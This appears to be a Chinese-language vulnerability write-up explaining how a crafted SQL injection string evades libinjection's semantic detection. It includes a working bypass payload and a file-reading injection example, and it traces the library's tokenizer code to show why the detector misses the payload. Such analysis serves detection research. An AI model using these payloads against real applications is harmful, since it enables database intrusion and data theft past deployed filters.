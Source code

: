 Libinjection 语义分析通用绕过
=============================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

源码下载地址 `https://github.com/client9/libinjection`

> example.c

    #include <stdio.h>
    #include <strings.h>
    #include <errno.h>
    #include "libinjection.h"
    #include "libinjection_sqli.h"

    int main(int argc, const char* argv[])
    {
        struct libinjection_sqli_state state;
        int issqli;

        const char* input = argv[1];
        size_t slen = strlen(input);

        /* in real-world, you would url-decode the input, etc */

        libinjection_sqli_init(&state, input, slen, FLAG_NONE);
        issqli = libinjection_is_sqli(&state);
        if (issqli) {
            fprintf(stderr, "sqli detected with fingerprint of '%s'\n", state.fingerprint);
        }
        return issqli;
    }
    $ gcc -Wall -Wextra examples.c libinjection_sqli.c
    $ ./a.out "-1' and 1=1 union/* foo */select load_file('/etc/passwd')--"
    sqli detected with fingerprint of 's&1UE'

**首先给一个pyload**

    # ./bin "ad1n'-- %a%0aunion select 1,database(),user() -- " 
    not sqli 
    #

测试payload 是否OK

![1.png](./resource/Libinjection语义分析通用绕过/media/rId24.png)

为什么会这样呢???

首先打开源码吧

如果对这个语义分析不太了解的吧，可以去百度上可以找到很多分析的文章这里就不过多阐述了

下图是一个运行的一个流程图

![2.png](./resource/Libinjection语义分析通用绕过/media/rId25.png)

### 它内部分为四种模式

    1. 无符号 标准SQL 模式 
    2. 无符号 MySQL模式 
    3. 单引号 标准SQL 模式 
    4. 单引号 MySQL 模式 
    5. 双引号 MySQL 模式

然后上面是一个单引号的标准SQL 的匹配他的一个核心点在于如下 函数libinjection\_sqli\_tokenize
作为一个转换内部字符的一个入口

    int libinjection_sqli_tokenize(struct libinjection_sqli_state * sf)
    {
        pt2Function fnptr;
        size_t *pos = &sf->pos;
        stoken_t *current = sf->current;
        const char *s = sf->s;
        const size_t slen = sf->slen;
        if (slen == 0) {
            return FALSE;
        }
    ​
        //初始化
        st_clear(current);
        sf->current = current;
    ​
        if (*pos == 0 && (sf->flags & (FLAG_QUOTE_SINGLE | FLAG_QUOTE_DOUBLE))) {
            *pos = parse_string_core(s, slen, 0, current, flag2delim(sf->flags), 0);
            printf("单引号双引号进入");
            sf->stats_tokens += 1;
            return TRUE;
        }
    ​
        while (*pos < slen) {
    ​
            /*
             * get current character
             */
            const unsigned char ch = (unsigned char) (s[*pos]);
            /*
             * look up the parser, and call it
             *
             * Porting Note: this is mapping of char to function
             *   charparsers[ch]()
             */
            fnptr = char_parse_map[ch];
            *pos = (*fnptr) (sf);
            if (current->type != CHAR_NULL) {
                sf->stats_tokens += 1;
                return TRUE;
            }
        }
        return FALSE;
    }

为什么`# "ad1n'-- %a%0aunion select 1,database(),user() -- "`
这么一个简单的可以绕过呢。

首先他是吧 `admi'` 先进入无符号的标准SQL 然后发现有一个\' 后面就转到
单引号的标准SQL

单引号标准SQL 首先获取的`admn'` 然后break

继续到了下一层碰到了一个 - 那么走到parse\_dash函数中

    static size_t parse_dash(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
    ​
        if (pos + 2 < slen && cs[pos + 1] == '-' && char_is_white(cs[pos+2]) ) {
            return parse_eol_comment(sf);
        } else if (pos +2 == slen && cs[pos + 1] == '-') {
            return parse_eol_comment(sf);
        } else if (pos + 1 < slen && cs[pos + 1] == '-' && (sf->flags & FLAG_SQL_ANSI)) {
            sf->stats_comment_ddx += 1;
            return parse_eol_comment(sf);
        } else {
            st_assign_char(sf->current, TYPE_OPERATOR, pos, 1, '-');
            return pos + 1;
        }
    }

然后当前的pos 一定是符合第一个判断条件的。继续跟踪parse\_eol\_comment
函数

    static size_t parse_eol_comment(struct libinjection_sqli_state * sf)
    {
        const char *cs = sf->s;
        const size_t slen = sf->slen;
        size_t pos = sf->pos;
        
        const char *endpos =(const char *) memchr((const void *) (cs + pos), '\n', slen - pos);
        if (endpos == NULL) {
            st_assign(sf->current, TYPE_COMMENT, pos, slen - pos, cs + pos);
            return slen;
        } else {
            st_assign(sf->current, TYPE_COMMENT, pos, (size_t)(endpos - cs) - pos, cs + pos);
            return (size_t)((endpos - cs) + 1);
        }
    }

这里只是判断了是否是有\\n 这个。然后就直接进入到st\_assign
函数中。继续跟踪st\_assign 函数

    static void st_assign(stoken_t * st, const char stype,size_t pos, size_t len, const char* value)
    {
        const size_t MSIZE = LIBINJECTION_SQLI_TOKEN_SIZE;
        size_t last = len < MSIZE ? len : (MSIZE - 1);
        st->type = (char) stype;
        st->pos = pos;
        st->len = last;
        memcpy(st->val, value, last);
        st->val[last] = CHAR_NULL;
    }

当前函数也是只是赋值了一下val然后就可以做任何操作。

最后就是 `admin'` 转换成了S

\-- 因为没有查询到直接是C

最后得到的匹配规则为SC 。此匹配规则不在数据库中。完成了绕过。

附一张调试打印图

![3.png](./resource/Libinjection语义分析通用绕过/media/rId27.png)
